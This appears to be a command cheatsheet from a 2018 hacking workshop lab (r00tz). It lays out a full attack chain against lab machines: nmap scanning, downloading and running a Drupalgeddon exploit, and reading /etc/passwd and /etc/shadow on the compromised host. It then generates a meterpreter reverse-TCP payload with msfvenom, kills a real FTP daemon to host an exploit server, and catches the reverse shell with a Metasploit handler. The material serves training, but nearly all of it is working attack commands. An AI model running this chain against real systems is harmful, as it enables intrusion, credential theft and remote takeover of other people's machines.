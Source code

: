 # r00tz2018 Commands Cheatsheet

Ping a host
```bash
ping [target internal IP]
```

Nmap a host
```bash
nmap [target internal IP] -T5 -A -sS -p20-450,3389,5900-5902
```

Download and run Drupalgeddon exploit
```bash
cd ~
wget https://www.exploit-db.com/download/44449.rb
ruby 44449.rb http://[target internal address]
```

Recon on exploited host
```bash
whoami
cat /etc/passwd
cat /etc/shadow
ls -hal ~
pwd
ls -hal ./
```

Enumerate network services on exploited host
```bash
netstat -ltnup
```

Generate pivot RCE exploit
```bash
sudo ifconfig eth0
# use the inet IP for the LHOST parameter in the next command. Alternatively, just use the one below.
cd ~
msfvenom -p windows/meterpreter/reverse_tcp -f python -b '\x00\x22\x0d\x0a\x5c\' LHOST=$(sudo ifconfig eth0 | awk '$0~/inet / {print $2}') LPORT=443 > rtcp_bytecode.txt
```

Setup for pivot exploits
```bash
cd ~

# copy over payload
scp ec2-user@[your internal ip]:~/rtcp_bytecode.txt ./

# download exploit server
wget https://www.exploit-db.com/raw/44596/ > ftpexploit.py

# copy rtcp_bytecode into the buf variable in ftpexploit.py

# find and kill real ftpd
ps aux | grep ftp 
ls -l /proc/[PID of ftpd]/exe
kill -15 [PID of ftpd]

# run exploit server
sudo python ftpexploit.py
```

Start Metasploit on attacker VM
```bash
sudo msfconsole
```

Commands for metasploit
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost [your internal ip]
set lport 443
run
```
